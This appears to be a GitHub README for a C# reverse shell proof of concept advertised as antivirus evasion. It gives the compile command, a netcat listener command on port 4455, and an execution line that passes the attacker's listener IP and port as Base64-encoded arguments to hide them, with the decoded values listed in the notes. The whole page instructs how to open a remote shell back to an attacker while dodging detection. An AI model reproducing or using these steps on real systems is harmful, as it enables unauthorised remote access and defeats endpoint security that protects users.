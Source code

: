 # C# Reverse Shell AV Evasion POC

## 🛠 Compile

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs


## 📡 Start the Listener

nc -nvlp 4455


## 🚀 Execute the Binary

shell.exe MTkyLjE2OC41LjU= NDQ1NQ==


## 🔎 Notes

- **Base64 encoded listener IP**: `MTkyLjE2OC41LjU=` → `192.168.5.5`
- **Base64 encoded listening port**: `NDQ1NQ==` → `4455`
